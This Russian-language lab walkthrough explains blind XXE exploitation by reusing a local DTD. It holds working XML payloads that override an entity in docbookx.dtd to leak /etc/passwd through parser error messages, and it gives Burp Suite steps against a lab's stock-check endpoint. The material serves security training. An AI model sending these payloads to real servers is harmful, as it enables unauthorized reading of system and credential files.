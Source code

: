 # ✨ Эксплуатация слепой XXE с повторным использованием локального DTD ✨

---

## 🔎 Понимание техники

Эта техника использует уязвимости слепого XXE, когда внеполосные (OOB) взаимодействия блокируются. Она включает:

- Использование гибридных внутренних и внешних деклараций DTD.
- Повторное использование локального файла DTD на сервере.
- Вызов ошибок синтаксического анализа XML для извлечения конфиденциальных данных.

### Основные характеристики:
1. Внешние декларации DTD не могут быть загружены с удаленных серверов из-за ограничений OOB.
2. Внутренние DTD могут переопределять сущности из локальных внешних DTD.
3. Ошибки синтаксического анализа содержат конфиденциальную информацию.

---

### Пример сценария атаки

Предположим, что локальный файл DTD существует по пути `/usr/local/app/schema.dtd` и определяет сущность с именем `custom_entity`. Злоумышленник может воспользоваться этим, отправив следующий полезный XML-код:

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

### Шаги:
1. **Определение параметрической сущности** (`local_dtd`), содержащей локальный внешний DTD.
2. **Переопределение внешней сущности** (`custom_entity`) с помощью вредоносного определения.
3. **Использование переопределённой сущности** через параметр `local_dtd`, что вызывает ошибку синтаксического анализа.

---

## 🔧 Пошаговое руководство по лабораторной работе

В этой лабораторной работе есть функция **"Проверка наличия на складе"**, которая анализирует входные данные XML, но не отображает результаты. Давайте используем её для извлечения содержимого `/etc/passwd`:

---

### ✅ Шаг 1: Переход к продукту

Найдите список продуктов и выберите любой:

![Скриншот 1](https://github.com/user-attachments/assets/420f18e2-6900-4413-81f2-7cc5c6103444)

---

### ✅ Шаг 2: Вызов проверки наличия

Прокрутите вниз и нажмите **"Проверить наличие на складе"**, включив Burp Proxy:

![Скриншот 2](https://github.com/user-attachments/assets/c12710e3-0520-47a9-b507-1bb41849a7df)

---

### ✅ Шаг 3: Перехват запроса

В **Burp Suite** откройте `Proxy -> HTTP History`, найдите `POST`-запрос к `/product/stock` и отправьте его в **Repeater**:

![Скриншот 3](https://github.com/user-attachments/assets/f2febc3e-4ab7-441e-8fb3-04990746f99f)

---

### ✅ Шаг 4: Вставьте вредоносный DTD

Замените полезную нагрузку следующим определением DTD:

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

![Скриншот 4](https://github.com/user-attachments/assets/87784678-071c-4e1f-a766-b4add7e516cd)

---

### ✅ Шаг 5: Извлечение данных

Отправьте запрос, чтобы получить содержимое `/etc/passwd` через вывод ошибки:

![Скриншот 5](https://github.com/user-attachments/assets/e6f9df34-6e44-46ea-81f9-16d3e6848ab3)

---

## 🔍 Поиск локального DTD для повторного использования

1. **Определите существующие файлы DTD:**
   - Проверьте общие пути, такие как `/usr/share/yelp/dtd/docbookx.dtd`.

2. **Проверьте наличие:**
   - Отправьте минимальный код для проверки доступности файла:

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

3. **Анализируйте DTD:**
   - Найдите открытые копии файлов DTD в интернете для поиска сущностей, которые можно переопределить.

---

## 🚀 Заключение

Эта атака демонстрирует, как уязвимости слепого XXE могут быть использованы даже при строгих ограничениях на OOB-взаимодействия путём повторного использования локальных файлов DTD на сервере. Это подчёркивает важность:

- Ограничения обработки DTD в XML-анализаторах.
- Ограничения доступа сервера к конфиденциальным файлам.

Удачных исследований! 😉
